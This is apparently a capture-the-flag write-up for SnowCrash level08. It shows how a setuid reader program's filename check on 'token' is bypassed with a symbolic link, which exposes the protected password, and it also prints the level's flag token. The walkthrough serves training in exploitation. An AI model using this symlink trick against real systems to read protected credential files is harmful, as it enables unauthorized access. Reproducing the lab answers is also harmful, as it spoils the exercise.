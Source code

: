 We see 2 files token and level08:
```
level08@SnowCrash:~$ ls -la
[...]
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```
We don't have access to the token, but we can run level08:
```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
```
If you transfer a file that belongs to us, the program works like an echo:
```
level08@SnowCrash:~$ echo 'abc' > /tmp/myfile
level08@SnowCrash:~$ ./level08 /tmp/myfile
abc
```
But this doesn't work if the name contains the word `token`
```
level08@SnowCrash:~$ echo 'abc' > /tmp/token && ./level08 /tmp/token
You may not access '/tmp/token'
level08@SnowCrash:~$ echo 'abc' > /tmp/mytoken && ./level08 /tmp/mytoken
You may not access '/tmp/mytoken'
level08@SnowCrash:~$ echo 'token' > /tmp/token2 && ./level08 /tmp/token2
You may not access '/tmp/token2'
```
So we should create a link to our file but call it by a different name:
```
level08@SnowCrash:~$ ln -s ~/token /tmp/link && ./level08 /tmp/link
quif5eloekouj29ke0vouxean
```
It is password.

token: `25749xKZ8L7DkSCwJkT9dyv6f`
